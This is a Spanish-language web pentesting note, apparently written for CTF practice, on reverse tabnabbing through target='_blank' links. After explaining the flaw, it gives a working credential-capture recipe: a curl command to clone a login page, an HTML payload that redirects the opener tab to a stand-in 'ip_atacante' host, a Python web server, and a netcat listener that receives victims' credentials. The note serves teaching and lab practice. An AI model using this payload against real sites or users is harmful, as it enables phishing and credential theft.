 ```yaml
---
title: "Vulnerabilidad Target Blank"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/vulnerabilidad-target-blank"
date: "2025-09-30"
---
```


### Explicación vulnerabilidad target blank

Esta vulnerabilidad, también conocida como **_reverse tabnabbing_**, un tipo de ataque de _phishing_ en el que el atacante reemplaza la pestaña legítima, y fiable, por un documento malicioso usando el selector _window.opener.location.assign()_ cuando se accede mediante un enlace de apertura en nueva ventana/pestaña, o sea del tipo _target=»_blank»._

Lo que hace el atacante es, usando el selector _window.opener.location_, llevar al usuario a alguna página falsa, que simula ser la original, o ejecuta algún JavaScript en la página de apertura en la que confía el usuario.

Explicado de manera sencilla, con el _reverse tabnabbing_, **cuando haces clic en una web para abrir una página nueva, y se abre en una nueva pestaña, si luego vuelves a la web original, sin que tú te des cuenta se cambia automáticamente esa página falsa que simula ser la buena**.

Parece la página web original que estabas viendo pero **tiene una url distinta** (que se puede ver claramente). El problema es que la mayoría de los usuarios no se dan cuenta de que la URL ha cambiado, ya que no se suelen fijar casi nunca, menos si piensan que están en una web en la que confían, por ejemplo esta.

Luego, por ejemplo, la página web falsa les pedirá que accedan de nuevo a su cuenta, y claro, pero ya no estás donde te creías que provienes sino en una copia de la pestaña original en la que hay otro documento, en este caso malicioso. **Si introduces tus datos ya te has entregado a los hackers** y harán lo que sea con tus credenciales.

### Ejemplo de uso
[Maquina Napping VulnHub (Mirar minuto 10)](https://www.youtube.com/watch?v=jVdfRTeOhnM)

Esta vulnerabilidad suele ocurrir [[Anotaciones varias#Cuando en una web hay un admin que revisa links, mensajes, etc]]

### Explotar vulnerabilidad

Queremos capturar unas credenciales de login al sitio web. para ello requerimos de 2 ficheros:

* Index.html (copia del index.html original del sitio)
* payload.html (donde irá el codigo malicioso)

#### Ficheros necesarios

##### Index.html
Para hacerse con el index, basta con:
```bash
curl -s <ip web donde esté el login> >index.html
```

##### Payload.html
El puerto que pongamos en el payload, será por el que escuchemos con netcat para recibir las credenciales
```bash
<html>
	<script>
			if (window.opener) window.opener.parent.location.replace("http://ip_atacante:443/index.html");
			if (window.parent != window) window.parent.location.replace("http://ip_atacante:443/index.html");
	</script>
</html>
```

#### Montar servidor y ponerse a la escucha
Montamos el servidor python donde tengamos el payload.html
```bash
pyhton3 -m http.server 80
```

En otro directorio diferente, tendremos el index.html y ahí nos ponemos a la escucha
```bash
nc -nlvp 443
```

#### Enviar URL a la víctima

Dependiendo del CTF se enviará de una u otra manera, pero el url que debemos enviarle es el siguiente: **http://ip_atacante:80/payload.html** es decir, le enviamos la URL de la web que estamos sirviendo con **python**


#### Resultado

La víctima accederá al fichero payload servido con python. sin que se de cuenta, su pestaña legítima (desde donde obtuvo el link, ahora lo que va a ver es index malicioso). Meterá sus credenciales ahí y nos llegará a nosotros por **netcat**




